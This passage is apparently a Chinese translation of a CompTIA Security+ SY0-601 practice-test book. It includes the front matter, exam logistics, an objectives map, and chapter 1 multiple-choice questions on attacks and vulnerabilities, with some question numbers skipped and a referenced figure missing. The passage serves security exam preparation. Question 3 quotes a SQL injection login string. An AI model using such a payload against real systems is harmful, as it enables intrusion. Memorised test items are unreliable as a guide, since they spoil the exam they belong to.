










# CompTIA Security+ 测试实践指南：SY0-601 考试, 第2版

## 致谢

像这样的书籍涉及许多人的工作，他们从概念到最终的印刷版和电子版付出了无数小时的时间和精力。Wiley团队的辛勤工作和奉献精神始终可见。我特别想承认并感谢高级收购编辑 Kenyon Brown，他在一次又一次的书籍合作中始终是一个很棒的合作者。

我也非常感谢本书的编辑和制作团队，包括项目编辑 Tom Dinse，他为项目带来了多年的经验和出色的才华；技术编辑 Chris Crayton，他在整本书中提供了富有洞察力的建议并给予了精彩的反馈；以及制作编辑 Saravanan Dakshinamurthy，他指导我完成了版面、格式和最终清理，以制作出一本优秀的书籍。我还要感谢许多幕后贡献者，包括使书籍和配套材料成为成品的图形、制作和技术团队。

我的代理 Carole Jelen 来自 Waterside Productions，继续为我们在写作生涯中提供美好的机会、建议和帮助。

最后，我想感谢我的朋友和家人，他们在我撰写、编辑并将这样一本书付印的过程中，在深夜、忙碌的周末和漫长的工时中一直支持着我。

## 作者简介

David Seidl 是 Miami University 的信息技术副总裁兼首席信息官，负责 Miami University 的 IT 工作。在他的 IT 职业生涯中，他曾担任多种技术和信息安全职务，包括担任 University of Notre Dame 的校园技术服务高级总监，在那里他共同领导了 Notre Dame 迁移到云端，并监督了云运营、ERP、数据库、身份管理以及广泛的其他技术和服务。在他在 Notre Dame 的高级领导职务之前，他曾担任 Notre Dame 的信息安全总监并领导了 Notre Dame 的信息安全项目。他曾在 Notre Dame 的 Mendoza 商学院担任讲师，教授信息安全和网络本科课程，并撰写了关于安全认证和网络战的书籍，包括合著 CISSP (ISC)² Official Practice Tests (Sybex, 2018) 以及 CompTIA CySA+ Study Guide: Exam CS0-002 的当前和前一版 (Wiley, 2020, Chapple/Seidl) 和 CompTIA CySA+ Practice Tests: Exam CS0-002 (Wiley, 2020, Chapple/Seidl)。

David 拥有 Eastern Michigan University 的传播技术学士学位和信息安全硕士学位，以及 CISSP、CySA+、Pentest+、GPEN 和 GCIH 认证。

## 技术编辑简介

**Chris Crayton**，MCSE、CISSP、CySA+、A+、N+、S+，是一名技术顾问、培训师、作者和业界领先的技术编辑。他曾担任计算机技术和网络讲师、信息安全总监、网络管理员、网络工程师和 PC 专家。Chris 曾担任多家领先出版公司众多技术书籍的技术编辑和内容贡献者。他还因其专业和教学成就而获得多项认可。

## 引言

CompTIA Security+ Practice Tests: Exam SY0-601, Second Edition 是 CompTIA Security+ Study Guide: Exam SY0-601, Eighth Edition (Wiley, 2020, Chapple/Seidl) 的完美配套卷。如果您想在参加 Security+ 考试前测试自己的知识，本书将通过提供涵盖 Security+ 领域的 1,100 道题目组合以及对正确答案和错误答案的易于理解的解释来帮助您。

如果您刚刚开始为 Security+ 考试做准备，我们强烈建议您使用 CompTIA Security+ Study Guide, Eighth Edition 来帮助您了解 Security+ 考试涵盖的各个领域。一旦您准备好测试自己的知识，请使用本书帮助您找到可能需要进一步学习的地方或为考试本身做练习。

由于这是 Security+ Study Guide 的配套书籍，本书的设计类似于参加 Security+ 考试。书本身分为七章：五章以领域为中心，包含每个领域的题目，以及两章包含 100 道题的练习测试，以模拟参加 Security+ 考试本身。

如果您能正确回答某个领域的 90% 或以上的问题，您可以放心地进入下一章。如果您无法正确回答那么多问题，请重读该章节并再次尝试题目。您的成绩应该会提高。


不要只学习题目和答案！实际考试中的题目与本书中包含的练习题不同。考试旨在测试您对概念或目标的了解，因此请使用本书来学习题目背后的目标。

### Security+ 考试

Security+ 考试旨在为网络安全专业人员和有意进入该领域的人提供厂商中立的认证。CompTIA 建议以下角色的当前或有志从业者获得此认证，包括：

- 系统管理员

- 安全管理员

- 安全专家

- 安全工程师

- 网络管理员

- 初级 IT 审计员/渗透测试员

- 安全顾问

### 参加考试

一旦您完全准备好参加考试，您可以访问 CompTIA 网站购买考试代金券：

```
www.comptiastore.com/Articles.asp?ID=265&category=vouchers
```

CompTIA 与 Pearson VUE 的测试中心合作，因此下一步将是找到您附近的测试中心。在美国，您可以根据地址或邮政编码进行此操作，而非美国的考生可能更容易输入城市和国家/地区。您可以在 Pearson VUE 网站上搜索附近的测试中心，在那里您需要导航到“查找测试中心”。

```
www.pearsonvue.com/comptia
```

现在您知道想在哪里参加考试，只需设置一个 Pearson VUE 测试账户并安排考试即可：

```
home.pearsonvue.com/comptia/onvue
```

在考试当天，携带两种形式的身份证明，并确保在考试开始前足够早到达。请记住，您将无法携带笔记、电子设备（包括智能手机和手表）或其他材料进入，并且考试可能存在其他要求。请务必在考试当天之前查看这些要求，以便您为考试本身以及测试流程和设施规则做好充分准备。

### 考试后

一旦您参加了考试，您会立即被通知成绩，因此您会立即知道是否通过考试。您应将成绩报告与考试注册记录以及您用于注册考试的电子邮件地址一起保存。

### 维护您的认证

CompTIA 认证必须定期续期。要续期您的认证，您可以参加最新版本的考试，获得符合条件的更高级别 CompTIA 或行业认证，或完成足够的继续教育活动以获得足够的继续教育单元（CEUs）来续期。

CompTIA 通过其网站提供续期信息：

```
www.comptia.org/continuing-education
```

当您注册续期认证时，您将被要求同意 CE 计划的道德准则、支付续期费用并提交您选择的续期方法所需的材料。

可用于获取 CEUs 以续期 Security+ 的行业认证完整列表可在以下位置找到：

```
www.comptia.org/continuing-education/choose/renew-with-a-single-activity/earn-a-higher-level-comptia-certification
```

CompTIA 还为每个考试目标发布相对权重。以下表格列出了五个 Security+ 目标领域及其在考试中的占比。

| 领域 | 考试占比 |

|---|---|

| 1.0 威胁、攻击和漏洞 | 24% |

| 2.0 架构与设计 | 21% |

| 3.0 实施 | 25% |

| 4.0 运维与事件响应 | 16% |

| 5.0 治理、风险与合规 | 14% |

## SY0-601 认证考试目标映射

| 目标 | 章节 |

|---|---|

| **1.0 威胁、攻击和漏洞** | |

| 1.1 比较和对比不同类型的社会工程技术 | 第 1 章 |

| 1.2 给定场景，分析潜在指标以确定攻击类型 | 第 1 章 |

| 1.3 给定场景，分析与应用程序攻击相关的潜在指标 | 第 1 章 |

| 1.4 给定场景，分析与网络攻击相关的潜在指标 | 第 1 章 |

| 1.5 解释不同的威胁行为者、攻击向量和情报来源 | 第 1 章 |

| 1.6 解释与各种类型漏洞相关的安全问题 | 第 1 章 |

| 1.7 总结安全评估中使用的技术 | 第 1 章 |

| 1.8 解释渗透测试中使用的技术 | 第 1 章 |

| **2.0 架构与设计** | |

| 2.1 解释企业环境中安全概念的重要性 | 第 2 章 |

| 2.2 总结虚拟化和云计算概念 | 第 2 章 |

| 2.3 总结安全应用程序开发、部署和自动化概念 | 第 2 章 |

| 2.4 总结身份验证和授权设计概念 | 第 2 章 |

| 2.5 给定场景，实现网络安全弹性 | 第 2 章 |

| 2.6 解释嵌入式和专用系统的安全影响 | 第 2 章 |

| 2.7 解释物理安全控制的重要性 | 第 2 章 |

| 2.8 总结加密概念的基础 | 第 2 章 |

| **3.0 实施** | |

| 3.1 给定场景，实现安全协议 | 第 3 章 |

| 3.2 给定场景，实现主机或应用程序安全解决方案 | 第 3 章 |

| 3.3 给定场景，实现安全网络设计 | 第 3 章 |

| 3.4 给定场景，安装和配置无线安全设置 | 第 3 章 |

| 3.5 给定场景，实现安全移动解决方案 | 第 3 章 |

| 3.6 给定场景，将网络安全解决方案应用于云 | 第 3 章 |

| 3.7 给定场景，实现身份和账户管理控制 | 第 3 章 |

| 3.8 给定场景，实现身份验证和授权解决方案 | 第 3 章 |

| 3.9 给定场景，实现公钥基础设施 | 第 3 章 |

| **4.0 运维与事件响应** | |

| 4.1 给定场景，使用适当的工具评估组织安全 | 第 4 章 |

| 4.2 总结事件响应中策略、流程和程序的重要性 | 第 4 章 |

| 4.3 给定事件，利用适当的数据来源支持调查 | 第 4 章 |

| 4.4 给定事件，应用缓解技术或控制措施以保护环境 | 第 4 章 |

| 4.5 解释数字取证的关键方面 | 第 4 章 |

| **5.0 治理、风险与合规** | |

| 5.1 比较和对比各种类型的控制措施 | 第 5 章 |

| 5.2 解释影响组织安全态势的适用法规、标准或框架的重要性 | 第 5 章 |

| 5.3 解释策略对组织安全的重要性 | 第 5 章 |

| 5.4 总结风险管理流程和概念 | 第 5 章 |

| 5.5 解释与安全相关的隐私和敏感数据概念 | 第 5 章 |

注意：考试目标可能随时在未经事先通知的情况下更改，且由 CompTIA 决定。请访问 CompTIA 的网站（www.comptia.org）以获取最新的考试目标列表。


## 第 1 章

### 威胁、攻击和漏洞

本章涵盖的 CompTIA Security+ 考试 SY0-601 主题如下：

- **1.1** 比较和对比不同类型的社会工程技术

- **1.2** 给定场景，分析潜在指标以确定攻击类型

- **1.3** 给定场景，分析与应用程序攻击相关的潜在指标

- **1.4** 给定场景，分析与网络攻击相关的潜在指标

- **1.5** 解释不同的威胁行为者、攻击向量和情报来源

- **1.6** 解释与各种类型漏洞相关的安全问题

- **1.7** 总结安全评估中使用的技术

- **1.8** 解释渗透测试中使用的技术

- **1.** Ahmed 是某大型保险公司的销售经理。他收到一封鼓励他点击链接并填写调查问卷的电子邮件。他对这封邮件持怀疑态度，但邮件中提到了一个主要的保险协会，这让他认为它可能是合法的。以下哪项最能描述此攻击？

  - **A.** 钓鱼

  - **B.** 社会工程

  - **C.** 精准钓鱼

  - **D.** 木马

- **2.** 你是中型银行的安全管理员。你在银行的数据库服务器上发现了一段不应该存在的软件。看起来如果特定员工被解雇，该软件将开始删除数据库文件。以下哪项最能描述这种情况？

  - **A.** 蠕虫

  - **B.** 逻辑炸弹

  - **C.** 木马

  - **D.** Rootkit

- **3.** 你负责 Acme Bank 的事件响应。Acme Bank 网站遭到攻击。攻击者使用了登录屏幕，但没有输入登录凭据，而是输入了一些奇怪的文本：' or '1' = '1。这次攻击的最佳描述是什么？

  - **A.** 跨站脚本

  - **B.** 跨站请求伪造

  - **C.** SQL 注入

  - **D.** ARP 欺骗

- **4.** 用户抱怨无法连接到无线网络。你发现无线接入点正遭受一种旨在阻断其 Wi-Fi 信号的无线攻击。以下哪项是此攻击的最佳标签？

  - **A.** IV 攻击

  - **B.** 干扰

  - **C.** WPS 攻击

  - **D.** 僵尸网络

- **5.** Frank 对公司电子商务服务器的攻击深感担忧。他特别担心跨站脚本和 SQL 注入。以下哪项最能防御这两种特定攻击？

  - **A.** 加密的 Web 流量

  - **B.** 输入验证

  - **C.** 防火墙

  - **D.** 入侵检测系统

- **6.** 你负责 Acme 公司的网络安全。用户报告称在使用无线网络时个人数据被窃取。他们都坚持只连接到公司无线接入点（AP）。然而，AP 的日志显示这些用户并未连接至它。以下哪项最能解释这种情况？

  - **A.** 会话劫持

  - **B.** 点击劫持

  - **C.** rogue 接入点

  - **D.** 蓝牙劫持

- **7.** 哪种类型的攻击依赖于攻击者将 JavaScript 输入到一个供用户输入将被其他用户查看的文本的文本区域？

  - **A.** SQL 注入

  - **B.** 点击劫持

  - **C.** 跨站脚本

  - **D.** 蓝牙劫持

- **8.** Rick 希望使攻击者对他的密码文件进行离线暴力破解变得非常困难。以下哪项不是使密码更难破解的常见技术？

  - **A.** 使用盐值

  - **B.** 使用胡椒值

  - **C.** 使用专用密码哈希算法

  - **D.** 使用对称加密加密密码明文

- **9.** 用于描述通过互联网消息服务发送的垃圾邮件的术语是什么？

  - **A.** SPIM

  - **B.** SMSPAM

  - **C.** IMSPAM

  - **D.** TwoFaceTiming

- **10.** Susan 正在分析应用程序的源代码，发现了一个返回 NULL 的指针解引用。这导致程序尝试从 NULL 指针读取并导致段错误。这对应用程序可能有什么影响？

  - **A.** 数据泄露

  - **B.** 拒绝服务状况

  - **C.** 权限蠕变

  - **D.** 权限提升

11. 特蕾莎是一家中型保险公司的安全经理。她接到执法部门的电话，告知她网络上有一些计算机参与了一次大规模拒绝服务（DoS）攻击。特蕾莎确信公司里没有员工会参与网络犯罪。以下哪项最能解释这种情况？

- A. 这是社会工程学攻击的结果。

- B. 所有机器都有后门。

- C. 这些机器是僵尸主机。

- D. 这些机器感染了加密病毒。

12. 异常的出站网络流量、地理位置异常以及数据库读取量增加，都是威胁情报中哪个关键要素的示例？

- A. 预测分析

- B. 开源情报（OSINT）

- C. 危害指标

- D. 威胁地图

13. 克里斯需要查看通过防火墙的连接尝试情况，因为他认为 TCP 握手没有正常完成。哪种安全信息和事件管理（SIEM）功能最适合排查此问题？

- A. 查看报告

- B. 数据包捕获

- C. 情绪分析

- D. 日志收集与分析

14. 克里斯想利用他的安全信息和事件管理（SIEM）系统检测潜在的内部威胁。哪种功能最符合他的需求？

- A. 情绪分析

- B. 日志聚合

- C. 安全监控

- D. 用户行为分析

15. 克里斯有数百个分布在不同地点的系统，他想更好地处理这些系统产生的数据量。哪两种技术可以帮助解决这个问题？

- A. 日志聚合和日志收集器

- B. 数据包捕获和日志聚合

- C. 安全监控和日志收集器

- D. 情绪分析和用户行为分析

16. 哪种类型的安全团队为网络安全演习制定交战规则？

- A. 蓝队

- B. 白队

- C. 紫队

- D. 红队

17. 辛西娅担心针对公司为客户提供的应用程序编程接口（API）的攻击。她应该建议采取什么措施来确保该 API 仅供已付费购买服务的客户使用？

- A. 要求进行身份验证。

- B. 安装并配置防火墙。

- C. 按 IP 地址进行过滤。

- D. 安装并使用入侵防御系统（IPS）。

18. 哪种类型的攻击基于向目标变量发送超过其实际可容纳数据量的数据？

- A. 蓝劫持（Bluesnarfing）

- B. 缓冲区溢出

- C. 蓝牙窃贼（Bluejacking）

- D. 跨站脚本攻击

19. 一封电子邮件告诉古尔文德，现在有一个限时免费获取软件包的机会，前 50 次下载无需付费。这是在对古尔文德使用哪种社会工程学原则？

- A. 稀缺性

- B. 恐吓

- C. 权威

- D. 共识

20. 你被要求测试公司的网络安全问题。你正在进行的特定测试主要涉及使用自动化和半自动化工具来查找网络上各种系统的已知漏洞。以下哪项最能描述此类测试？

- A. 漏洞扫描

- B. 渗透测试

- C. 安全审计

- D. 安全测试

21. 苏珊希望通过组织商业网站来降低凭据窃取攻击成功的可能性。以下哪项不是旨在阻止凭据窃取的常见预防方法？

- A. 使用多因素身份验证


- B. 用户安全意识培训
- C. 使用复杂的用户名
- D. 限制或阻止使用第三方网络脚本和插件

27. 以下哪项最能描述一组已被入侵并受到单一中心点控制的计算机？

- A. 僵尸网络（Zombienet）
- B. 僵尸网络（Botnet）
- C. 空网络（Nullnet）
- D. 攻击网络（Attacknet）

28. 塞拉在她的采购询价建议书流程中包括一个问题，询问供应商经营了多长时间以及供应商有多少现有客户。这种做法旨在帮助防止什么常见问题？

- A. 供应链安全问题
- B. 缺乏供应商支持
- C. 外包代码开发问题
- D. 系统集成问题

29. 约翰正在对客户的网络进行渗透测试。他目前正在从 archive.org、netcraft.com、社交媒体和信息网站等来源收集信息。以下哪项最能描述这一阶段？

- A. 主动侦察
- B. 被动侦察
- C. 初始利用
- D. 横向移动（Pivot）

30. 爱丽丝想防止 SSRF 攻击。以下哪项对防止此类攻击没有帮助？

- A. 从提交的 HTTP 查询中移除所有 SQL 代码
- B. 阻止`127.0.0.1`和`localhost`等主机名
- C. 阻止`/admin`等敏感 URL
- D. 应用基于白名单的输入过滤器

31. 哪种类型的攻击基于在目标网络的域名服务器中输入虚假条目？

- A. DNS 投毒
- B. ARP 投毒
- C. XSS 投毒
- D. CSRF 投毒

32. 弗兰克被要求对一家小型簿记公司进行渗透测试。在测试中，他只获得了公司名称、网站域名和网关路由器的 IP 地址。以下哪项最能描述此类测试？

- A. 已知环境测试
- B. 外部测试
- C. 未知环境测试
- D. 威胁测试

33. 你在一家为客户执行渗透测试的安全公司工作。你正在对一家电子商务公司进行测试。你发现，在攻陷 Web 服务器后，可以利用该 Web 服务器对公司内部网络发起第二次攻击。以下哪项最能描述这种情况？

- A. 内部攻击
- B. 已知环境测试
- C. 未知环境测试
- D. 横向移动（Pivot）

34. 在调查公司网络上的恶意软件爆发时，你发现了一些非常奇怪的事情。有一个文件与 Windows 系统 DLL 同名，甚至具有相同的 API 接口，但它对输入的处理方式却截然不同，并且似乎是为了帮助破坏系统，而且应用程序似乎一直在连接这个文件，而不是真正的系统 DLL。以下哪项最能描述这种情况？

- A. 垫片（Shimming）
- B. 特洛伊木马
- C. 后门
- D. 重构

35. 以下哪项功能不是 SOAR（安全编排、自动化与响应）工具的关键组成部分？

- A. 威胁与漏洞管理
- B. 安全事件响应
- C. 自动化恶意软件分析
- D. 安全运营自动化

36. 约翰发现，公司邮件服务器发送的电子邮件被阻止了，原因是被盗账户发送了垃圾邮件。他可以使用哪种查询来确定 McAfee 和 Barracuda 等厂商将他的域名归类为什么？

- A. `nslookup` 查询
- B. `tcpdump` 查询
- C. 域名信誉查询
- D. SMTP `whois` 查询

37. 弗兰克是一所小型大学的网络管理员。他发现网络上有几台机器感染了恶意软件。该恶意软件正在向网络外部的目标发送大量数据包。以下哪项最能描述这种攻击？

- A. SYN 洪水攻击
- B. 分布式拒绝服务（DDoS）攻击
- C. 僵尸网络
- D. 后门

55. 生日攻击属于哪种类型的攻击？

- A. 社会工程学攻击
- B. 密码学攻击
- C. 网络拒绝服务攻击
- D. TCP/IP 协议攻击

56. 胡安妮塔是 Acme 公司的网络管理员。一些用户抱怨他们不断被踢出网络。当胡安妮塔检查无线接入点（WAP）的日志时，她发现一个去认证数据包从用户的 IP 地址发送到了 WAP。这里似乎发生了什么？

- A. 用户 Wi-Fi 配置问题
- B. 取消关联攻击
- C. 会话劫持
- D. 后门攻击

57. 约翰发现，一名攻击者正在试图使用软件从常见密码列表中尝试大量密码来获取网络密码。这属于哪种类型的攻击？

- A. 字典攻击
- B. 彩虹表攻击
- C. 暴力破解
- D. 会话劫持

58. 你是一家银行的网络安全管理员。你发现，一名攻击者利用了 OpenSSL 中的一个漏洞，强制一些连接切换到攻击者可能攻破的弱密码套件版本 TLS。这属于哪种类型的攻击？

- A. 取消关联攻击
- B. 降级攻击
- C. 会话劫持
- D. 暴力破解

59. 当攻击者试图找到一个能产生与密码相同哈希值的输入值时，这属于哪种类型的攻击？

- A. 彩虹表
- B. 暴力破解
- C. 会话劫持
- D. 碰撞攻击

- 60. Farès 是一家生产高级路由器和交换机的公司的网络安全管理员。他发现公司的网络在一段时间内遭受了一系列高级攻击。以下哪项最能描述这种攻击？

  - A. DDoS（分布式拒绝服务）
  - B. 暴力破解
  - C. APT（高级持续性威胁）
  - D. 解除关联攻击

- 61. 网络钓鱼通常不旨在获取以下哪种类型的信息？

  - A. 密码
  - B. 电子邮件地址
  - C. 信用卡号
  - D. 个人信息

- 62. John 正在他的网络上运行 IDS（入侵检测系统）。用户有时报告说 IDS 将合法流量标记为攻击。以下哪项描述了这种情况？

  - A. 误报（False positive）
  - B. 漏报（False negative）
  - C. 错误触发
  - D. 虚假标志

- 63. Scott 发现他负责的其中一个系统上安装了恶意软件。随后不久，该系统的用户所使用的密码被发现正被攻击者使用。Scott 应该在受感染的系统上寻找哪种类型的恶意程序？

  - A. Rootkit（根kit）
  - B. 键盘记录器
  - C. 蠕虫
  - D. 以上都不是

- 64. 你正在对公司网络进行渗透测试。作为测试的一部分，你将被授予一个权限极低的登录账户，并尝试使用该账户获得管理员权限。这称为什么？

  - A. 权限提升
  - B. 会话劫持
  - C. Root 获取
  - D. 爬升

- 69. 下图显示了 OpenVAS 系统的报告。此处显示的是哪种类型的弱配置？

  

  - A. 弱加密
  - B. 不安全的 administrative 账户
  - C. 开放端口和服务
  - D. 不安全协议

- 70. 在进行渗透测试时，Annie 对已获得访问权限的网络中的系统进行扫描。她发现同一网络中有另一个系统，具有与她当前所在系统相同的账户和用户类型。由于她已经在已访问的系统上拥有有效用户账户，她能够登录到该系统。这属于哪种技术类型？

  - A. 横向移动
  - B. 权限提升
  - C. 权限保留
  - D. 纵向移动

- 71. Amanda 扫描了一台她认为已完全修补的 Red Hat Linux 服务器，发现服务器上的 Apache 版本被报告存在几个月前某个漏洞的利用风险。当她检查是否缺少补丁时，Apache 已完全修补。发生了什么情况？

  - A. 误报
  - B. 自动更新失败
  - C. 漏报
  - D. Apache 版本不匹配

- 72. 当程序具有变量（尤其是数组）并且在输入数据之前没有检查边界值时，该程序容易受到哪种攻击？

  - A. XSS（跨站脚本攻击）
  - B. CSRF（跨站请求伪造）
  - C. 缓冲区溢出
  - D. 逻辑炸弹

- 73. Tracy 担心她想下载的软件可能不可信，因此她搜索了该软件，发现许多帖子声称该软件是合法的。如果她安装了该软件，后来发现它是恶意的，并且恶意行为者植入了这些评论，那么他们使用了哪种社会工程学原则？

  - A. 稀缺性
  - B. 熟悉性
  - C. 一致性/社会认同
  - D. 信任

- 74. 以下哪项最能描述当特定条件满足时（即条件满足则执行）会执行某些恶意活动的恶意软件？

  - A. 引导扇区病毒
  - B. 逻辑炸弹
  - C. 缓冲区溢出
  - D. 稀疏感染病毒

- 75. 以下哪个术语描述了在社会工程活动中使用对话策略从目标那里提取信息？

  - A. 借口（Pretexting）
  - B. 诱导（Elicitation）
  - C. 冒充
  - D. 恐吓

- 76. Telnet、RSH 和 FTP 都是以下哪项的示例？

  - A. 文件传输协议
  - B. 不安全协议
  - C. 核心协议
  - D. 开放端口

- 77. Scott 想要确定组织无线网络可以从哪些位置被访问。他最可能采用的测试技术是什么？

  - A. OSINT（开源情报）和主动扫描
  - B. 战争驾驶和战争飞行
  - C. 社会工程学和主动扫描
  - D. OSINT 和战争驾驶

- 78. Gerald 是一家小型金融服务公司的网络管理员。用户报告说出现了奇怪的行为，似乎是病毒导致的。在隔离了他认为受感染的机器后，Gerald 对其进行了分析。他发现所有受感染的机器都收到了一封声称来自会计部门的电子邮件，附件是一个 Excel 电子表格，用户打开了该电子表格。这些机器上最可能的问题是什么？

  - A. 宏病毒
  - B. 引导扇区病毒
  - C. 特洛伊木马
  - D. RAT（远程访问木马）

- 79. 你的公司聘请了一家外部安全公司对你的网络执行各种测试。在漏洞扫描期间，你将向该公司提供各种系统（如数据库服务器、应用服务器、Web 服务器等）的登录凭据，以协助其扫描。以下哪项最能描述这种情况？

  - A. 已知环境测试
  - B. 灰盒测试
  - C. 凭据扫描
